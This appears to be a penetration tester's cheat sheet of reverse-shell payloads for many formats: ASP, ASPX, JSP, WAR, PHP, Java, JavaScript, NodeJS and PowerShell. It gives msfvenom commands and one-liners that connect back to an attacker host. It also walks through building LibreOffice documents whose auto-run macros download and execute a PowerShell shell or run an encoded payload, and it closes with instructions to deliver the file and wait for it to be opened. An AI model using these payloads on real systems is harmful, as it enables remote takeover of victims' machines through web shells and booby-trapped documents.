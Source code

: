 #### asp
Is it IIS 5.1?
5.1
```bash - kali
cp /usr/share/webshells/asp/cmd-asp-5.1.asp .
```
OR
```bash - kali
cp /usr/share/webshells/asp/cmdasp.asp .
```
32 bit Stageless:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```
32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```
64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```
64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```
#### aspx
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```
32 bit Stageless:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```
32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```
64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```
64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```
#### HTTP/S
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o /var/www/html/shell.exe
```
#### HTTP/S meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$KALI LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```
#### java
```java
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/$KALI/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()
```
#### JavaScirpt
```js
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(443, "$KALI", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
```
#### jsp
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw > reverse.jsp
```
#### jar / war
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f war > reverse.war
```
Sometimes the jar itself will not work, we need to extract and upload one of its files:
```bash - kali
jar -xvf reverse.war
```
Now find and upload the .jsp file
#### NodeJS
```
echo "require('child_process').exec('bash -c \\'bash -i >& /dev/tcp/$KALI/443 0>&1\\''" > /var/www/node/package.js
```
#### php
```bash - kali
msfvenom -p php/reverse_php LHOST=$KALI LPORT=443 -f raw > reverse.php
```
#### .odt LibreOffice
save the following as Shelly.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```bash - kali
sudo apt install libreoffice-writer
```
Open LibreOffice Writer application.  start a new file, go to Tools > Macros > Organize Macros > basic.
select "FILE NAME" > New.  Name the Module.
```
REM  *****  BASIC  *****
Sub Main
	Shell("cmd /c powershell iwr http://$KALI/Shelly.ps1 -o %TEMP%/Shelly.ps1")
	Shell("cmd /c powershell -c %TEMP%/Shelly.ps1")
End Sub
```
**Save the document** as odt format.
We then need to make this macro run automatically when the document is opened.
Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK
**Save file**
```bash - kali
chmod 755 Shelly.ps1
```
![[Python#Server]]
![[1._rlwrap]]
upload odt file.
#### .hta - .ods LibreOffice
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o evil.hta
```
Open the hta file, copy the "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"
```bash - kali
mousepad transform.py
```
Paste in place for the s variable.
```python
s = "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"
n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```
```bash - kali
sudo apt install libreoffice-calc
```
start a new LibreOffice Calc file, go to Tools > Macros > Organize Macros > basic.
select "FILE NAME" > New.  Name the Module.  Paste in your generated to look like this:
==NOTICE HOW THIS STARTS WITH "cmd.exe /C ......."==
Make sure your Dim and Str's line up!
---
Sub Exploit
   Dim Str As String
   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"
   Shell(Str)
End Sub
---
**Save the document**
We then need to make this macro run automatically when the document is opened.
Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK
Now just deliver the file and wait for it to be opened.
